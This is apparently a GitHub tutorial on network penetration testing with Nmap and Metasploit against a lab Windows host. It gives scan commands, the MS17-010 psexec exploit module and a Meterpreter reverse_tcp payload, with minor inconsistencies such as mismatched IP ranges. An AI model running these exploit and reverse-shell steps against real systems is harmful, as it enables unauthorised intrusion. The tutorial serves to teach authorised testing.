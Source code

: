 # Network Penetration Testing using Metasploit Framework and Nmap
## Tools used: 

## Nmap :
Nmap (Network Mapper) is a popular open-source tool used for network exploration and security auditing. It can be used to scan a network to identify active hosts, services running on those hosts, and potential vulnerabilities.

Here are the basic steps for using Nmap for network scanning:

Install Nmap: Nmap is available for multiple platforms, including Windows, Linux, and macOS. You can download the latest version from the official Nmap website.

Identify the target network: Determine the IP address range or hostname of the network you want to scan. For example, if you want to scan all the hosts in the 172.16.73.0/24 network, the target IP range would be 172.16.73.1-255.

Run the scan: Open a command prompt or terminal and run the Nmap scan command. Here is an example:
nmap -sS 172.16.73.1-255
This command will perform a TCP SYN scan on all hosts in the 192.168.0.0/24 network.

Analyze the results: Nmap will display the results of the scan on the command line. The output will show the IP addresses of the hosts that responded to the scan and the open ports and services running on those hosts.

## Metasploit Project- Metasploit Framework :
There is a high-level project known as the Metasploit project. The Metasploit framework is a sub project that we commonly known as Metasploit. It is a open source software that is written in Ruby programming language. The Metasploit Framework is designed to be modular so that new functionality can be added easily. Developers of Metasploit are open to code submission. In 2009, a information security company Rapid7, acquired Metasploit project. There are several commercial products from the Metasploit framework such as Metasploit Pro, Metasploit Express, and Metasploit Community Editions.

# Network Scanning using Metasploit :
Now that we have seen all the basic commands, let’s use Metasploit to perform Network Scanning.
Scenario — Network port scan with portscan/tcp
Victim’s IP: 172.16.73.9 (Windows)
Port range: 1–1024
Attacker’s machine: Kali Linux
### Step 1: Open Terminal in Kali and type msfconsole to open Metasploit framework console.
### Step 2: Search for required module i.e. Scanner module using  grep scanner search smb command.
![image](https://github.com/NitinSharma973/Network-penetration/assets/89895011/924977f8-c946-4a68-8bf1-825566ea3dfe)

 
### Step 3: Now we will select the required module i.e.auxiliary/scanner/smb/smb_ms17_010) using  use auxiliary/scanner/smb/smb_ms17_010 command.
### Step 4: Type info command for getting information about the selected module and to see the related options.
 ![image](https://github.com/NitinSharma973/Network-penetration/assets/89895011/cf23da6c-537b-4107-b9bf-4564114051b7)

### Step 5: Now we will specify the target IP address and the port range by typing following commands: 
Ø set RHOSTS 172.16.73.9
### Step 6: Finally, to initiate the scan against the target system, type run command.
 ![image](https://github.com/NitinSharma973/Network-penetration/assets/89895011/123d36d7-37df-43c6-a794-9c3ac22edd6f)

### Step 7: Search for required  Exploits i.e. exploit  module using  grep exploit search smb command.
 ![image](https://github.com/NitinSharma973/Network-penetration/assets/89895011/c5e6f842-3668-4882-aee3-172ec566a04a)

### Step 8: Now we will select the required exploit   i.e. exploit/windows/smb/ms17_010_psexec using  
use exploit/windows/smb/ms17_010_psexec 010 command.
### Step 9: Type info command for getting information about the selected exploit  and to see the related options.
 ![image](https://github.com/NitinSharma973/Network-penetration/assets/89895011/5dec400c-6dbb-4f29-a45e-a25f61ebce2e)

### Step 10: Now we will select the required  payloads i.e. payload windows/meterpreter/reverse_tcp using  Set  payload windows/meterpreter/reverse_tcp command. 
 ![image](https://github.com/NitinSharma973/Network-penetration/assets/89895011/12651a5a-5354-4f11-864a-3a4eef62d8c9)


We can see that as the scan runs, we receive output of network ports that are discovered to be open. This is how we can use Metasploit for network scanning. Metasploit can also be used for discovering vulnerabilities and exploiting them.
